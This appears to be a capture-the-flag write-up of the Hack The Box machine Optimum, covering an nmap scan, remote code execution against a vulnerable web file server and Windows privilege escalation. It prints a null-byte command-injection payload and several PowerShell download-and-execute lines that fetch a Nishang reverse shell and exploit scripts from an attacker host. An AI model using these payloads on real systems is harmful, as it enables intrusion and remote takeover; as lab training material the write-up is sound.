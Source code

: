 # Optimum Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA optimum 10.10.10.8``

# ${{\color{purple}Initial Foothold}}\ $

### During the web recon I found the version of the cms that is vulnerable to an RCE **:white_check_mark:**

![image](https://user-images.githubusercontent.com/123066149/219492265-45d0a04b-eee5-4467-be6a-b33f8a38eac9.png)

![image](https://user-images.githubusercontent.com/123066149/219492157-283f6b64-491f-48ff-8fa7-a6f770c0047f.png)

### I used this exploit in the first place :

https://www.exploit-db.com/exploits/49584

![image](https://user-images.githubusercontent.com/123066149/219492915-e653e5a7-f220-41b2-89de-59e80f4e45c8.png)

# ${{\color{purple}Exploitation}}\ $ 

### In a second time I exploited the vulnerability with Burp :

``%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe ping 10.10.16.5.}``

![optimum](https://user-images.githubusercontent.com/123066149/219493247-c0c21ced-4cd1-4b24-8980-c815c2e7262b.PNG)

![optimum2](https://user-images.githubusercontent.com/123066149/219493268-de16367a-282b-4e33-8fd4-3dc80e7e8fdf.PNG)

``%00{.exec|c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http://10.10.16.5:80/Nishangrev.ps1').}``

![optimum3](https://user-images.githubusercontent.com/123066149/219493604-977a134f-f22e-4aec-af01-cc72923d0390.PNG)

``IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Nishangrev.ps1')``

![optimum4](https://user-images.githubusercontent.com/123066149/219493617-ebd94c1f-597f-4e69-b246-5173dae68d41.PNG)

# ${{\color{purple}Privilege Escalation}}\ $

``grep -i function Sherlock.ps1``

![optimum5](https://user-images.githubusercontent.com/123066149/219495828-a224e6fb-3c3c-453b-acd5-52f3a9d282b7.PNG)


### Add the Find-AllVulns function of Sherlokcs at the of the script :

![optimum6](https://user-images.githubusercontent.com/123066149/219495848-d65729e6-c5a8-4ba1-b9be-75bebec3b0d0.PNG)

``IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Sherlock.ps1')``

![optimum7](https://user-images.githubusercontent.com/123066149/219495875-efce0c42-0a1e-4084-84fe-70ccf3ef2e3f.PNG)

![image](https://user-images.githubusercontent.com/123066149/219494525-8a507ea7-2543-4af2-83ba-a2802c10a443.png)

``IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/MS16-135.ps1')``

![optimum8](https://user-images.githubusercontent.com/123066149/219494679-fcd46daf-5076-4ef9-b548-ef0481f50ab3.PNG)


# ${{\color{purple}Points of Improvement}}\ $

* Know the full path of powershell :
* ``c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe``
* Use ``Sherlock.ps1`` for privileges escalations on windows
